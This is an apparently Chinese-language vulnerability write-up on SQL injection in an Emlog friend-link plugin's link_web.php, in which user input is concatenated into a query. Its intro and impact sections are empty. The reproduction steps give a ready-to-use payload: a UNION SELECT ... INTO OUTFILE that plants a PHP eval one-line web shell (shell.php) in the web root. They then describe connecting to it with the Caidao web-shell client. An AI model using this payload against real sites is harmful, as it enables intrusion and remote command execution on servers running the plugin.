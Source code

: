 Emlog 友情链接自助插件存在SQL注入漏洞
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

在该插件当中的link\_web.php文件中，直接将用户提交的数据进行了拼接，之后直接带入了查询，未经过任何的过滤操作，由此一个典型的SQL注入漏洞就这样简易的诞生了：

![](./.resource/Emlog友情链接自助插件存在SQL注入漏洞/media/rId24.png)

由于这里的参数都没有经过过滤，所以我们可以对任意参数进行验证，进行SQL注入，首先我们可以提交正常的访问请求，之后使用burpsuite进行抓包，之后改包，我们这里以URL为例：

在抓取到数据包之后，我们可以将url改为以下内容：

    url=http://0-sec.org' union select 1,2,3,4,5,'<?php eval($_GET[cmd]); ?>' into outfile 'c:\\phpstudy\\www\\shell.php' 

之后，这条语句会正常执行，同时也会在C:\\phpstudy\\www\\下生成一个shell.php，而且该shell.php中的内容正是我们之前写入的一句话，之后我们可以使用菜刀进行连接。
